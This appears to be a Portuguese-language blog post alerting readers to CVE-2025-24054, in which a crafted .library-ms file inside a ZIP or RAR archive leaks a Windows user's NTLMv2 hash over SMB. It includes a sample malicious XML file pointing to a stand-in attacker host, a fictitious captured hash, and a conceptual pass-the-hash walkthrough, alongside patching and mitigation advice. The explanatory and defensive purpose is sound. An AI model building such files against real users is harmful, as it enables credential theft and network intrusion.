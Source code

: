 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00 # << AJUSTE ESTA DATA E HORA PARA A PUBLICAÇÃO
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot" # Seu nome de autor
images: ["images/SemTitulo-1.png"]
draft: false

tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).



Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

* **Tentar ataques de "Pass-the-Hash":** Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
* **Tentar Quebra de Senha Offline:** O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:
* **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso
- 1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

    - **O que é SMB (Server Message Block)**? De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede. Quando você acessa uma pasta compartilhada como `\\NOMEDOSERVIDOR\pasta`, você está usando SMB.
- 2. **Exemplo de Conteúdo Malicioso no `.library-ms`**:
O arquivo `library-ms` pode conter algo como:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="[http://schemas.microsoft.com/windows/2009/library](http://schemas.microsoft.com/windows/2009/library)">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///[servidor-do-atacante.com/recurso_malicioso](https://servidor-do-atacante.com/recurso_malicioso)</url>
                {{/* Outra variação poderia ser: <url>\\servidor-do-atacante.com\recurso_malicioso</url> */}}
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
A parte crucial é `<url>file://///servidor-do-atacante.com/recurso_malicioso</url>`, que instrui o Explorer a tentar acessar um compartilhamento SMB no servidor do atacante.

- 3. **Entrega e Extração**: O invasor comprime este arquivo .library-ms (e talvez outros arquivos isca) em um arquivo `.zip` ou `.rar` e o envia para a vítima (ex: via e-mail, download de site comprometido).
---
- 4. **A Mágica (Ruim) Acontece**: Quando o usuário desavisado baixa e extrai o conteúdo do arquivo ZIP/RAR, o Windows Explorer, ao processar o arquivo `.library-ms` recém-extraído (para indexação, pré-visualização, etc.), tenta se conectar automaticamente ao caminho SMB especificado.

- 5. **Vazamento do Hash**: Durante essa tentativa de conexão automática ao servidor SMB do atacante, o Windows envia as credenciais do usuário na forma de um handshake de autenticação NTLM. O servidor do atacante, que está esperando por isso, captura o **hash NTLMv2** do usuário.

**Usuário Fictício**: `MEUDOMINIO\UsuarioAlvo`
**Hash NTLMv2 Capturado (Exemplo Fictício)**: `UsuarioAlvo::MEUDOMINIO:1122334455667788:AABBCCDDEEFF00112233445566778899:0101000000000000009a8b7c6d5e4f3a0000000002000000...`

**Impacto do Vazamento de Hash NTLMv2**
Com o hash NTLMv2 da vítima em mãos, um invasor tem algumas opções perigosas:

- Tentar Quebra de Senha Offline: O hash NTLMv2 pode ser submetido a ferramentas de cracking (como Hashcat ou John the Ripper) em conjunto com listas de palavras (wordlists) e regras de mutação para tentar descobrir a senha de texto puro do usuário. A complexidade da senha original e a capacidade computacional do invasor determinam a chance de sucesso.

- **Ataques de "Pass-the-Hash" (PtH)**: Este é frequentemente o impacto mais direto e perigoso em ambientes corporativos.

**O que é um Ataque "Pass-the-Hash"**? Em um ataque PtH, o invasor não precisa conhecer a senha em texto puro. Em vez disso, ele usa o próprio hash NTLM roubado para se autenticar em outros sistemas e serviços na rede que aceitam autenticação NTLM.
- Exemplo Conceitual de Pass-the-Hash:
- 1. O atacante capturou o hash NTLMv2 de MEUDOMINIO\UsuarioAlvo.
- 2. O UsuarioAlvo também é administrador de um servidor importante na rede chamado "SERVIDOR_ALVO".
- 3. O atacante usa uma ferramenta (como PsExec do conjunto Sysinternals, ou ferramentas do framework Impacket ou Mimikatz) e fornece o hash NTLMv2 de UsuarioAlvo em vez de uma senha.
- 4. Se o "SERVIDOR_ALVO" aceitar autenticação NTLM e o hash for válido para UsuarioAlvo, o atacante ganha acesso ao "SERVIDOR_ALVO" com os privilégios de UsuarioAlvo (neste caso, administrador), sem nunca ter descoberto a senha real.

**Sistemas Afetados**

A vulnerabilidade afeta o Windows Explorer em versões do Windows que processam automaticamente arquivos `.library-ms` e ainda utilizam ou permitem fallback para autenticação NTLM em conexões SMB.

**Correção e Mitigação**

A boa notícia é que a Microsoft já corrigiu esta vulnerabilidade específica (CVE-2025-24054). A correção foi disponibilizada através das atualizações de segurança, provavelmente no "Patch Tuesday" de Março (conforme mencionado no artigo original).

*Recomendações Principais*:

- 1. *Mantenha o Windows Atualizado*: Aplique todas as atualizações de segurança da Microsoft o mais rápido possível. Esta é a defesa primária contra esta e muitas outras vulnerabilidades.
- 2. *Cautela com Arquivos Compactados*: Tenha cuidado ao baixar e extrair arquivos .zip ou .rar de fontes não confiáveis ou inesperadas.
- 3. *Configurações de Segurança de Rede (Para Ambientes Corporativos)*:
 - Considere desabilitar o NTLM e forçar o uso de Kerberos sempre que possível.
Implemente segmentação de rede e firewalls para restringir conexões SMB desnecessárias, especialmente para fora da rede local.
 - Monitore tentativas de autenticação NTLM suspeitas.

**Conclusão e Próximos Passos**

Vulnerabilidades como a CVE-2025-24054 destacam a importância de mecanismos de defesa em camadas e a necessidade de manter os sistemas atualizados. Embora o patch da Microsoft resolva este vetor específico, a compreensão de como os hashes NTLM podem ser explorados é crucial para a segurança em ambientes Windows.

*Ficou curioso para ver como um ataque de captura de hash NTLM funciona na prática e como um atacante poderia usar ferramentas como as do Kali Linux para explorar uma vulnerabilidade similar em um ambiente controlado?*

Não perca nosso próximo post: **"Explorando na Prática: Capturando Hashes NTLM com Kali Linux e VMs"**! Vamos montar um laboratório e demonstrar passo a passo. Fique ligado!



<img src="images/SemTitulo-2.png">



---